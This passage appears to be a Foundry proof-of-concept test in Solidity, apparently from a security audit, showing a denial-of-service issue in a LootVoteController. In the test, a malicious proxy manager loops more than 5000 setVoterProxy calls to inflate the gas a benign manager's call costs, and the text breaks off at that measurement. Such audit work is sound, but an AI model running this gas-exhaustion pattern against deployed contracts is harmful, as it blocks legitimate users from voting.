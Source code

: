 ```javascript
        uint48 startTimestamp;
        // Duration of the Lock
        uint48 duration;
        // BlockNumber for the Lock
        uint32 fromBlock; // because we want to search by block number
    }

    struct TotalLock {
        // Total locked Supply
        uint224 total;
        // BlockNumber for the last update
        uint32 fromBlock;
    }

    function getUserLock(address user) external view returns (UserLock memory) {
        return UserLock(1,1708151785,604800, 19245756); // DUMMY VALUE AS THIS IS FOR TESTING PURPOSE ONLY.
    }

}


contract LootVoteControllerTest is Test {

    LootVoteController public controller;
    address public user;
    address public malicious_manager;
    address public benign_manager;
    HolyPalPower public _hPalPower;
    HolyPaladinToken public hPal;


    function setUp() public {
        hPal = new HolyPaladinToken();
        _hPalPower = new HolyPalPower(address(hPal)); 
        user = makeAddr("USER"); // Dummy user for testing.
        malicious_manager = makeAddr("MALICIOUS_MANAGER");
        benign_manager = makeAddr("BENIGN_MANAGER"); 
        controller = new LootVoteController(address(_hPalPower));


    }
    
    function test_DOSinSetVoterProxy() public {
        vm.startPrank(user);
        controller.approveProxyManager(benign_manager);
        controller.approveProxyManager(malicious_manager);
        vm.stopPrank();

        vm.startPrank(malicious_manager);
        uint256 WEEK = 604800;

        for (uint i; i <= 5000; i++ ) {
            controller.setVoterProxy(user, address(uint160(i + 1)), 1, block.timestamp + WEEK);
        }

        vm.stopPrank();

        vm.startPrank(benign_manager);
        uint gasBefore = gasleft();

        controller.setVoterProxy(user,address(0x666),1,block.timestamp + WEEK);
        uint gasAfter = gasleft();
```